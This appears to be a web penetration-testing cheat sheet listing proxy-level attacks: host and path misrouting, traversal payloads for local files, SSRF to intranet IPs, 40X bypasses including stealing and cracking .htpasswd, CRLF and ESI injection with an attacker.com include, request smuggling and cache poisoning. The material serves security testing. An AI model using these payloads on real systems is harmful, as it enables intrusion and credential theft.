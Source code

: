 # Exploitation
### Proxy Attacks

*   Host Misrouting
    *   `Host`, `X-Forwarded-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, `Forwarded` → Check if Validated
    *   Invalid / Duplicate / Wrapped / Domain Parsing / Port Value / Absolute URLs
    *   SSRF                                  → `GET http://[URL]@[OOB/INTRANET_IP]` + Header OOB Values
    *   Server-Side Injections   → URL String Parts
*   Path Misrouting
    *   `GET ../../../../../../[LOCAL_FILE]`
    *   `GET ..;/..;/..;/..;/..;/..;/[LOCAL_FILE]`
    *   Encodings                        → URL / Double URL / Unicode / Nested / UTF-8
    *   Non-Standard Proxies  → Different from Apache / Nginx
*   Parameter Pollution
    *   `GET /transfer.php?param=1&param=2` → Check Parsing Order
    *   Value Override / WAF Bypass
    *   [Exploitation](https://book.hacktricks.xyz/pentesting-web/parameter-pollution)
*   Verb Tampering
    *   `curl -kILX OPTIONS [URL]`                            → GET / POST / PATCH / Other
    *   `X-HTTP-Method`, `X-HTTP-Method-Override`   → 405 Bypasses
    *   Denied Requests                                             → Replace Method + Resend
*   40X Bypasses
    *   `bypass()    [FORBIDDEN_URL]` → Nested / Recursively
    *   `httpbrute() [401_URL]`             → Stealing `/[WEB_ROOT]/[html/HOST]/.htpasswd` + APR1 Hashcat Cracking
    *   Method Confusion
    *   H2C Smuggling
    *   [Path Normalization](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#heading-pathname-manipulation-bypassing-reverse-proxies-and-load-balancers-security-rules)
    *   X-Forwarded-For / X-Real-IP Spoofing
*   30X Injections
    *   CRLF
        *   `crscan() [URL_OR_QUERY]`
        *   [Exploitation](https://techbrunch.github.io/patt-mkdocs/CRLF%20Injection/#summary)
    *   Open Redirection
        *   `redscan() [URL/PATH_OR_QUERY]`
        *   Header/Location Reflection
        *   [Exploitation](https://github.com/payloadbox/open-redirect-payload-list)
*   ESI Injection
    *   `Surrogate-Control: content="ESI/1.0"`
    *   `Hell<!--esi-->o`                                             → "Hello" Reflection
    *   `<esi:include src=http://attacker.com>` → OOB Detection
    *   [XSLT RCE](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
    *   [Exploitation 101](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection) / [102](https://gosecure.ai/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
*   HTTP Smuggling
    *   `smuggle() [POST_URL]`
    *   [Exploitation](https://portswigger.net/web-security/request-smuggling/exploiting) → Host Misrouting / Response Poisoning / Session Stealing
*   Cache Poisoning
    *   [Cache Headers](https://www.virtuesecurity.com/kb/cache-controls-explained/)                               → `poison() [URL]`
    *   Header Discovery & Tampering   → [Cache Harmful Response](https://book.hacktricks.wiki/en/pentesting-web/cache-deception/index.html) 
*   [Race Conditions](https://portswigger.net/web-security/race-conditions#methodology)
    *   [Send Parallel Requests](https://portswigger.net/burp/documentation/desktop/tools/repeater/send-group#sending-requests-in-parallel)   → Turbo Intruder / GitHub Tools
    *   Limit Overrun                      → Functions that perform a check → act state transition